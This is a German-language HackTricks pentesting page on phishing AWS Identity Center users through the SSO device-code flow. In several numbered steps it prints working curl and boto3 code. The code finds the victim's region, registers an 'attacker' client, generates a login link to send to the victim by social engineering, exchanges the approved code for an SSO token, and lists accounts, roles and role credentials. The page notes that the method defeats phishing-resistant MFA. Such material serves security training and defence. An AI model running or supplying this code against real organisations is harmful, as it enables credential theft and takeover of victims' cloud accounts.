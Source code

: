 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## AWS Device Code Phishing

Ursprünglich vorgeschlagen in [**diesem Blogbeitrag**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), ist es möglich, einen **Link** an einen Benutzer zu senden, der AWS SSO verwendet, der, wenn der **Benutzer akzeptiert**, dem Angreifer einen **Token zur Verfügung stellt, um den Benutzer zu impersonieren** und auf alle Rollen zuzugreifen, auf die der Benutzer im **Identity Center** zugreifen kann.

Um diesen Angriff durchzuführen, sind die Voraussetzungen:

* Das Opfer muss **Identity Center** verwenden
* Der Angreifer muss die **Subdomain** kennen, die vom Opfer verwendet wird `<victimsub>.awsapps.com/start`

Nur mit den vorherigen Informationen wird der **Angreifer in der Lage sein, dem Benutzer einen Link zu senden**, der, wenn er **akzeptiert** wird, dem **Angreifer Zugriff auf das AWS-Benutzer**konto gewährt.

### Angriff

1. **Finden der Subdomain**

Der erste Schritt des Angreifers besteht darin, die Subdomain herauszufinden, die das Opferunternehmen in ihrem Identity Center verwendet. Dies kann über **OSINT** oder **Raten + BF** erfolgen, da die meisten Unternehmen hier ihren Namen oder eine Variation ihres Namens verwenden werden.

Mit diesen Informationen ist es möglich, die Region zu ermitteln, in der das Identity Center konfiguriert wurde:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generiere den Link für das Opfer & sende ihn**

Führe den folgenden Code aus, um einen AWS SSO-Login-Link zu generieren, damit das Opfer sich authentifizieren kann.\
Für die Demo führe diesen Code in einer Python-Konsole aus und verlasse sie nicht, da du später einige Objekte benötigst, um das Token zu erhalten:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send den generierten Link an das Opfer unter Verwendung deiner großartigen Social Engineering Fähigkeiten!

3. **Warte, bis das Opfer es akzeptiert**

Wenn das Opfer **bereits bei AWS angemeldet** war, muss es nur die Berechtigungen akzeptieren. Wenn nicht, muss es sich **anmelden und dann die Berechtigungen akzeptieren**.\
So sieht das Prompt heutzutage aus:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Erhalte SSO-Zugriffstoken**

Wenn das Opfer das Prompt akzeptiert hat, führe diesen Code aus, um **ein SSO-Token zu generieren, das den Benutzer impersoniert**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Der SSO-Zugriffstoken ist **8 Stunden gültig**.

5. **Benutzer impersonifizieren**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing des unphishbaren MFA

Es ist interessant zu wissen, dass der vorherige Angriff **auch funktioniert, wenn ein "unphishbares MFA" (webAuth) verwendet wird**. Dies liegt daran, dass der vorherige **Workflow niemals die verwendete OAuth-Domain verlässt**. Anders als bei anderen Phishing-Angriffen, bei denen der Benutzer die Anmeldedomain ersetzen muss, ist im Fall des Gerätecode-Workflows vorgesehen, dass ein **Code von einem Gerät bekannt ist** und der Benutzer sich sogar auf einem anderen Gerät anmelden kann. Wenn die Eingabeaufforderung akzeptiert wird, kann das Gerät, nur durch **Kenntnis des ursprünglichen Codes**, **Anmeldeinformationen** für den Benutzer **abrufen**.

Für weitere Informationen dazu [**prüfen Sie diesen Beitrag**](https://mjg59.dreamwidth.org/62175.html).

### Automatische Werkzeuge

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Referenzen

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

